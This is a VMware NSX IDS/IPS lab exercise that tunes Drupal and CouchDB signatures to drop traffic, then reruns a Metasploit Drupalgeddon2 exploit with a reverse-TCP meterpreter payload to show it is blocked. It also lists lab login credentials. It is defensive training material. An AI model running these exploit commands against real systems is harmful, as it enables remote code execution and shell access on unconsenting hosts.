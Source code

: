 
## 8. Preventing an Attack
**Estimated Time to Complete: 30 minutes**

In this exercise, we will show how the NSX Distributed IDS/IPS can just detect but also prevent an attack. We will run the same attack scenario as before.

**Tune the Web-FrontEnd Profile**

In order to prevent an attack, we need to both change the mode in our IDS/IPS rule(s) to **detect and prevent** and ensure that relevant signature actions are set to either **drop** or **reject**.
The default VMware-recommend signature action can be overrided both at the global level, or within a profile. For the purpose of this lab, we will make the modification within the profile.
Besides changing the signature action, you can also disable signatures as the global or per-profile level, which may be needed in case of false-positives.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Web-FrontEnd** profile and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. In the Filter field, select **Product Affected** and type **drupal_drupal** and click **Apply** to only show the signatures related to Drupal.

![](assets/images/IDPS_POC_56.PNG)

5. You should see a filtered list with 4 signatures (may be different if you have a different signature package version deployed). 
5. For each of the signatures displayed, set the Action to **Drop** or **Reject**. Click **Apply** to confirm.

![](assets/images/IDPS_POC_57.PNG)

6. Click **SAVE** to save the changes to the **Web-FrontEnd** profile.

**Tune the Web-FrontEnd Profile**

Now we will also set the action for signatures related to **CouchDB** in the **Databases** profile to **Drop**.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Databasesprofile** and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. You should see a filtered list with 7 signatures (may be different if you have a different signature package version deployed). 
5. Click the selection box on top to select all signatures.  
6. Click the **ACTION** button on top and choose **Drop** to change the action for all selected signatures to **Drop**. Click **Apply** to confirm.
7. Click **SAVE** to save the changes to the **Databases** profile.

**Change the IDS/IPS Mode to Detect & Prevent**

For each IDS/IPS Rule, you can set the mode to **Detect Only** or **Detect & Prevent**. This mode effecively limits the action that can be taken. When deployed in **Detect Only** mode, the only action that will be taken when a signature is triggerd is an **Alert** will be generated, regardless of the action set for the signature. In **Detect & Prevent** mode on the other hand, the action set on each signature is applied.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Rules
2. Click the **>** icon to expand the **NSX IDPS Evaluation** Policy. **ADD POLICY**
3. For both the **App-Tier Policy** and **Web-Tier Policy** rule, change the mode from **Detect Only** to **Detect & Prevent**.

![](assets/images/IDPS_POC_57.PNG)

4. Click **PUBLISH** to commit the changes.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit, esbalish a reverse shell
    
2.	Confirm that as a **detect & prevent** policy is applied to the WEB-TIER VMs, the exploit attempt was prevented and no meterpreter session was established. Because the initial exploit was not successful, lateral movement to the iternal segment is also prevented.

```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >

```
**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_53.PNG)
3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    
    ![](assets/images/IDPS_POC_59.PNG)

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click the **green bar (Prevented)** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections

  ![](assets/images/IDPS_POC_60.PNG)

You have now successfully prevented the initial exploit and further lateral movement.
This completes this exercise and the lab. You may continue with some optional exercises. 

This completes this exercise and the lab. You may continue with some optional exercises:   
[***Optional: 9. Segmentation***](/docs/9-Segmentation.md) 
[***Optional: 9. Segmentation***](/docs/9-Segmentation.md) 

Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step : 11. Conclusion**](/docs/11-Conclusion.md) 
